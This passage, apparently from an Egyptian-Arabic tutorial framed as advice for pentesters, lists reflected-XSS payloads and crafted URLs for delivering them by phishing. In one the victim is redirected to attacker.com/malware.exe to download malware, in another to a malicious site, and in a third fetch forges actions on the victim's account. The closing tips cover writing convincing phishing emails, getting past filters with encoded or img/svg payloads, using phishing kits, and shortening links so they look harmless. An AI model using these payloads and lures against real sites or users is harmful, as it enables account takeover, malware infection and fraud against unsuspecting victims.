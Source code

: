 5. **تحميل برمجيات خبيثة:**
   - **الوصف**: تخلّي الضحية تحمل ملف خبيث لما تفتح الرابط.
   - **Payload**:
     ```html
     <script>window.location='attacker.com/malware.exe';</script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>window.location='attacker.com/malware.exe';</script>
     ```
   - **الخطوات**:
     1. ارفع ملف خبيث.
     2. ابعت الرابط في حملة Phishing.

6. **إعادة توجيه لموقع خبيث:**
   - **الوصف**: ترمي الضحية على موقع فيه هجمات تانية.
   - **Payload**:
     ```html
     <script>window.location='malicious-site.com';</script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>window.location='malicious-site.com';</script>
     ```

7. **استغلال ميزات الموقع:**
   - **الوصف**: تنفذ ميزات زي إرسال رسايل أو تعديل بيانات.
   - **Payload**:
     ```html
     <script>
       fetch('example.com/send-message', {
         method: 'POST',
         body: 'message=You are hacked!'
       });
     </script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>fetch('example.com/send-message',{method:'POST',body:'message=You are hacked!'});</script>
     ```

---

**خلاصة بالعامية للسيناريوهات:**
كل سيناريو زي خطة هجوم مختلفة. ممكن تسرق الكوكيز وتتحكم في الحساب، تخلّي الضحية تدخل بياناتها في صفحة مزيفة، أو حتى تحمل فيروس. الـ Phishing بيخلّي الضحية تثق في الرابط، والـ XSS بيديك التحكم الكامل.

---

### **4. نصايح للـ Pentester**
1. **اختبر بأمان**: استخدم بيئة اختبار أو موقعك الخاص عشان تتجنب المشاكل القانونية.
2. **صمم حملات مقنعة**: الإيميل أو الرسالة لازم تبقى شبه الرسمي عشان الضحية تثق.
3. **جرب Payloads متنوعة**: لو فيه فلاتر، استخدم `<img>`، `<svg>`، أو أكواد مشفرة.
4. **استخدم أدوات Phishing**: زي SET أو Gophish عشان توفر وقت.
5. **سجّل كل حاجة**: دوّن الـ Payloads، الروابط، والنتايج عشان التقرير.
6. **خلّي الرابط مختصر**: استخدم bit.ly أو tinyurl عشان يبان طبيعي.

---